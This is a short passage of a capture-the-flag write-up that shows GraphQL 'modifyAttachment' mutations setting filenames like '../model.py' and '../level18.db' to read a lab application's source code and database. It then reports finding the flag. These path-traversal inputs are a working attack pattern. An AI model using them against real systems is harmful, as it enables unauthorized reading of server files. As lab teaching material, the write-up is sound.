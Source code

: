 ![](https://gblobscdn.gitbook.com/assets%2F-MeU8PSC8pJwv8a582oA%2F-MfJIh2UiuMv6GZ7xGwB%2F-MfJtCLEtFvkDNVt9n6L%2F6.png?alt=media&token=f8c1ffce-c29d-4fc1-8717-1530d42e72ec)

still we didn't find the flag but let's try to access another file.
```graphql
mutation{
  modifyAttachment(id:1, filename:"../model.py"){
    ok
  }  
}
```

![](https://gblobscdn.gitbook.com/assets%2F-MeU8PSC8pJwv8a582oA%2F-MfJIh2UiuMv6GZ7xGwB%2F-MfJtlVaBbPyU2BP-LdB%2F7.png?alt=media&token=111abbf3-b26e-4f85-8d91-3007649dc658)


#### **Flag**
Here is another interesting file here called level18.db which seems to be the database.
```graphql
mutation{
  modifyAttachment(id:1, filename:"../level18.db"){
    ok
  }  
}
```
![](https://gblobscdn.gitbook.com/assets%2F-MeU8PSC8pJwv8a582oA%2F-MfJIh2UiuMv6GZ7xGwB%2F-MfJuiDtEy56NICuE_Xw%2F8.png?alt=media&token=950b4629-3a18-442a-a9ac-615c7fe9b024)

Bingo! The Flag is here! Thanks For reading I hope you enjoyed it.